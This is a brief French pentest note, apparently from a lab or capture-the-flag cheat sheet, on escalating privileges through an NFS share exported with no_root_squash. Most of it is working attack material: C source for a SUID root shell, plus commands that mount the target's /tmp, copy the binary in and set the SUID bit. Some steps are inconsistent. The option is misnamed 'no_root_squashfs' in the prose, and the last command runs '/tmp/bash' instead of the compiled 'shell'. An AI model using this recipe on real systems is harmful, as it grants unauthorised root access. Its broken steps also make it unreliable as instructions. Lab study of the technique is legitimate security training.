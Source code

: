 Si un volume est monté en NFS avec l'option "no_root_squashfs", alors ce sont les droits de l'utilisateur qui monte ce fichier à distance qui s'appliquent. Exemple, un serveur a un partage disponible avec cette option activée, si je le monte avec l'utilisateur root de mon host, alors j'ai les droits root sur ce partage également. Le principe est ensuite d'uploader un binaire avec un SUID, pour pouvoir faire une privesc.

machine cible:
```bash
cat /etc/exports
---
/var/nfs/general *(rw,no_root_squash)
/tmp *(rw,no_root_squash)
```

Création d'un binaire:

```bash
nano -w shell.c
```

```C
#include <stdio.h>
#include <sys/types.h>
#include <unistd.h>
int main(void)
{
  setuid(0); setgid(0); system("/bin/bash");
}
--------------------------------
gcc shell.c -o shell
```

Le copier sur la machine cible, puis lui donner le suid:

```bash
machine host:
sudo mount -t nfs 10.129.2.12:/tmp /mnt
sudo cp shell /mnt/
sudo chmod u+s /mnt/shell
```

Puis exécuter le binaire sur la machine cible:

```bash
/tmp/bash -p
```
